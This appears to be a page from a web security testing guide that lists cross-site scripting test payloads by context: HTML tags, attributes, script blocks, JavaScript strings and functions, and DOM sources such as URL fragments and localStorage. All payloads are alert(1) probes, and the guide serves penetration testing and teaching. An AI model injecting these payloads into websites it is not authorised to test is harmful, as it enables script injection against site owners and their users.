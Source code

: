 #### HTML Context Tests

Test payloads based on where input is reflected:

```javascript
# Inside HTML tags
Original: <div>USER_INPUT</div>
Test with: <script>alert(1)</script>
Test with: <img src=x onerror=alert(1)>

# Inside HTML attributes
Original: <input value="USER_INPUT">
Test with: "><script>alert(1)</script>
Test with: " autofocus onfocus="alert(1)

# Inside script tags
Original: <script>var name = 'USER_INPUT';</script>
Test with: ';alert(1);//
Test with: \';alert(1);//
```

#### JavaScript Context Tests

Test when input is reflected within JavaScript code:

```javascript
# Inside JavaScript strings
Original: var user = "USER_INPUT";
Test with: ";alert(1);//
Test with: \";alert(1);//

# Inside JavaScript code
Original: var id = USER_INPUT;
Test with: alert(1)//
Test with: (alert(1))//

# Inside JavaScript functions
Original: callback('USER_INPUT')
Test with: ');alert(1);//
Test with: '});alert(1);//
```

#### DOM Source Tests

Test common DOM-based XSS sources:

```javascript
# Test URL fragments
site.com/page#<img src=x onerror=alert(1)>
site.com/page#javascript:alert(1)

# Test localStorage/sessionStorage
> localStorage.setItem('test', '<img src=x onerror=alert(1)>');
> sessionStorage.setItem('test', '<img src=x onerror=alert(1)>');

# Test document.write sources
site.com/page?name=<div onmouseover='alert(1)'>
site.com/page?name=</script><script>alert(1)</script>
```
